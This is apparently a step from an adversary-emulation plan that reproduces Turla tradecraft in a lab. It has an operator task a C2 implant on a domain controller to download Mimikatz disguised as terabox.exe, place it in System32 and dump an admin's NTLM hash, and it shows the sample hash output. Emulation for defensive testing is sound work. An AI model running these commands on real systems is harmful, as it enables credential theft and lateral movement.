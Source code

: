 ### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>

## Step 6 - Preparation for Lateral Movement onto Second Host

:microphone: `Voice Track:`

Step 6 emulates Turla downloading and executing Mimikatz as `terabox.exe`
after gaining persistance on the machine. Execution of Mimikatz will reveal a
cached NTLM hash for the admin user `Adalwolfa`. This username/hash combination
will be used in the next step for lateral movement.

---

### ☣️ Procedures

* From your Kali C2 terminal, task the CARBON-DLL implant on the DC to download and execute mimikatz lsadump (note that the file gets downloaded to `C:\Windows\\Temp\` and then gets moved to `C:\Windows\System32` after download since the CARBON-DLL communications library module cannot download directly to privileged locations):

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 3, "payload": "mimikatz.exe", "payload_dest": "C:\\Windows\\Temp\\terabox.exe", "cmd": "move C:\\Windows\\Temp\\terabox.exe C:\\Windows\\System32\\terabox.exe && C:\\Windows\\System32\\terabox.exe \"lsdu::go /ynot\" \"quit\""}'
```

* :exclamation: Verify that the NTLM hash for `adalwolfa` is included in the output.

```bash
grep 'NTLM : 07d128430a6338f8d537f6b3ae1dc136' logs.txt -C 5 -i
```

* This should return:
>
* > ```text
    > RID  : 00000456 (1110)
    > User : Adalwolfa
    >
    > * Primary
    >     NTLM : 07d128430a6338f8d537f6b3ae1dc136
    >     LM   : 
    > Hash NTLM: 07d128430a6338f8d537f6b3ae1dc136
    >     ntlm- 0: 07d128430a6338f8d537f6b3ae1dc136
    >     lm  - 0: 95b8536c32208871930216e62d5e12d4
    >    ```
